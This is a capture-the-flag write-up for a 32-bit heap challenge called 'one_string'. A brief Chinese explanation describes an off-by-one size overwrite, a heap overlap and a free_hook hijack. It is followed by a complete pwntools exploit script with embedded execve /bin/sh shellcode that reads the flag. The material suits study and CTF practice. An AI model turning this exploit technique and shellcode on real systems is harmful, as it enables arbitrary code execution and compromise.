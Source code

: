 # one_string

因为有RWX考虑直接写shellcode，然后发现edit之后的size由strlen决定，因此可以与下一个chunk的size位拼接在一起，造成size比chunk大1字节，然后再次edit改下一个chunk的size位造成堆重叠，之后再将下一个chunk中记录note的content的指针改到bss段notelist去，然后就可以得到任意地址写。将free_hook(0x80EB4F0)写成rwx区域已经布置好的shellcode的地址，然后free即可getshell。

> **Warning**:  libc 2.23（ubuntu16.04）

```python
#coding=utf8

from pwn import *

import base64

context.log_level = 'debug'

context.terminal = ['gnome-terminal','-x','bash','-c']

context.binary='./pwn'

r=process('./pwn')

r.recvuntil('Please input:')



ans = ''



def add(length, conetent):

    global ans

    r.sendline('1')

    ans += '1\n'

    r.sendline(str(length))

    ans += str(length)+'\n'

    r.send(conetent)

    ans += conetent



def free(idx):

    global ans

    r.sendline('2')

    ans += '2'+'\n'

    r.sendline(str(idx))

    ans += str(idx)+'\n'



def edit(idx,conetent):

    global ans

    r.sendline('3')

    ans += '3\n'

    r.sendline(str(idx))

    ans += str(idx)+'\n'

    r.send(conetent)

    ans += conetent





add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x31,'aim'+'\n')

edit(0,'b'*0x2c)

edit(0,'c'*0x2c+'\x41')

edit(2,'d'*0xc+p32(0x11)+p32(0)*3+p32(0x1)+'\n')

free(1)

free(3)

free(4)

free(2)

add(0x3c,'e'*0x2c+p32(0x31)+p32(0x080EBA14)+'\n')#1

add(0x2c,'k'*0x2c)#2

#gdb.attach(r)

shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

add(0x2c,shellcode.ljust(0x24,'\x00')+p32(0x80EB4F0)+'\n')#3

edit(0,p32(0x80eba1c)+'\n')

free(0)

r.sendline('cat flag')
#r.interactive()

ans += 'cat flag\n'

ans = base64.b64encode(ans)

print(ans)
```

